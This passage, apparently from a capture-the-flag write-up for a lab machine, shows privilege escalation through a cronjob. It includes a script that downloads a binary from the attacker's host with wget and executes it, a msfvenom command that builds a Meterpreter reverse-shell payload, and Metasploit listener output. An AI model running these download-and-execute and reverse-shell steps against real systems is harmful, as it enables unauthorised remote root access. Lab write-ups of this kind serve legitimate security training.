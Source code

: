 ```
www-admin-data@onetwoseven:/$ ls -l /bin/nano*
-rwxr-xr-x 1 root root 225320 Jan 11  2017 /bin/nano
-r-xr-xr-x 1 root root    130 Apr 21 21:13 /bin/nano_backdoor
```

Next, I'll create a `snowscan.sh` file in the root of my Python webserver:

```
#!/bin/sh
wget http://10.10.14.23/met -O /tmp/met
chmod 777 /tmp/met
/tmp/met
```

Then I generate a Meterpreter payload to connect back to me when it gets executed by the cronjob:

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LPORT=5555 LHOST=10.10.14.23
```

And finally once the cronjob runs, it downloads `snowscan.sh`, executes it and downloads the meterpreter binary so I can get a shell as root:

```
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > jobs

Jobs
====

No active jobs.

msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.23:5555
```
